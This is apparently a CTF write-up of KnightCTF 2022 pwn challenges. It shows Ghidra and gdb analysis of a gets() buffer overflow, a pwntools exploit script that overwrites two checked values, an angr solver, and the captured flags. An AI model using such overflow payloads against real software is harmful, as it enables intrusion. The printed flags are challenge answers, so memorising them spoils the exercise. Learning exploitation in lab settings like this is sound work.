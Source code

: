 ```yaml
---
title: KnightCTF pwn challenges writeup
author: jopraveen
date: 2022-01-22
categories: [CTFtime,KinghtCTF]
tags: [pwn,rev]
---
```


## What's your name [50 points]
- They gave us a zip file to download, so lets unzip it and add the binary file to GHIDRA

#### Main function
![disas-main](https://i.imgur.com/zmeG6el.png)
- gets() is vulnerable to buffer overflow
- in line 14 they're checking the value 100 is still in that variable or not
- If we overwrite that variable then the if condition will be statisfied means the value 100 will be overwritten
- So we can get the flag
- Ok how we can do that?
  - char **user_input** array can store upto 60 bytes
  - and then there will be the value of the integer 100
  - so if we give more than 60 bytes it'll overwrite it
  - let's try that

![](https://i.imgur.com/Ymq1znG.png)
- Now let's try this at remote server

![](https://i.imgur.com/LPrmzMh.png)
- Nice we got our flag `KCTF{bAbY_bUfF3r_0v3Rf1Ow}`

------------

## What's your name 2 [100 points]
- They gave us a zip file to download, so lets unzip it and add the binary file to GHIDRA

#### Main function
- In ghidra we can reaname a variable by pressing `L` or right click it and do `rename variable`
- And we can add comments too (by pressing `;` semicolon in that particular line)
- That's what I did here, so don't confuse coz  it's different.. It's fully for your understanding purpose

![](https://i.imgur.com/TPBHQGG.png)

- I think I explained in the picture so it's enough to understand the vulnerablity
, lets skip to the exploitation part
- In line 22 there are  two condition checks
- One with **0x5445454c** , anther one with **0x534b544e**
- So we need to overwrite those values
- First let's find in which offset they are locate
- Let's open it with gdb and disassemble the main function

![](https://i.imgur.com/FN99TjA.png)
- Let's set breakpoints in both compare instructions

![](https://i.imgur.com/QRXxeAW.png)
- run it. I'm giving a pattern here as input

![](https://i.imgur.com/Wo7xzUi.png)
- We hit our first break point, let see what's in **eax** register

![](https://i.imgur.com/UUpEc4w.png)
- So we need to place **0x5445454c** at 76th position
- Before going to next breakpoint we need to set this register value as **0x5445454c**
- `set $eax=0x5445454c` and continue
- Then only it jumps to next comparison, otherwise it directly exits
- Now we hit our 2nd breakpoint, let's see what's in **eax** register

![](https://i.imgur.com/DR0fvjb.png)
- So we need to place **0x534b544e** at 72nd position
- Fine now let's write our exploit
- Don't forget we need to convert these values into little endian format

#### Exploit script
```python
#!/usr/bin/python3
from pwn import *
p = process('whats_your_name_two')

payload = b'A'*72 # fill 72 bytes with junk

''' 
>>> from pwn import *
>>> p64(0x534b544e)
b'NTKS\x00\x00\x00\x00'
our second argument starting at 76th position, 
so let's leave the nullbytes and take only "NTKS"
'''
payload += b'NTKS'
payload += p64(0x5445454c) # here we can send with null bytes, no problems

p.sendline(payload)
p.interactive()
```
- Nice it works, let's send this in remote server

![](https://i.imgur.com/PU4zjdR.png)
- Cool we got our flag `KCTF{bUfF3r_0v3Rf1Ow_i5_fUn_r1Gh7}`

-------

## Hackers Vault
- They gave us a zip file to download, so lets unzip it and add the binary file to GHIDRA
- I was concentrating on other challenge so I automated this challenge with angr

#### angr script
```python
#!/usr/bin/python3
import angr
import claripy
import sys

good_address = 0x0040124a
bad_address = 0x00401288
base_addr = 0x00400000
flag_length = 6
binary = './hackers_vault'

proj=angr.Project(binary,load_options={'auto_load_libs':False},main_opts={'base_addr':base_addr})
flag=[claripy.BVS('flag%i'%i,8) for i in range(flag_length)]

flag_concat=claripy.Concat(*flag + [claripy.BVV("\n")])
state=proj.factory.entry_state(stdin=flag_concat) 
for i in flag: 
    state.solver.add(i>=32)
    state.solver.add(i<=127)
simgr=proj.factory.simgr(state)
simgr.explore(find=good_address,avoid=bad_address)
if simgr.found:
    simulation=simgr.found[0]
    print(simulation.posix.dumps(sys.stdin.fileno()))
else:
    print("FAILURE")
```

- I know it's too much for this
- But it works, that's what we need

![](https://i.imgur.com/J5rD8Q7.png)
- IN REMOTE

![](https://i.imgur.com/VvuvDAY.png)
- flag `KCTF{b1NaRy_3xOpL0iTaT1On_r0cK5}`
- That's all for this category, easy pwns 😛
    
    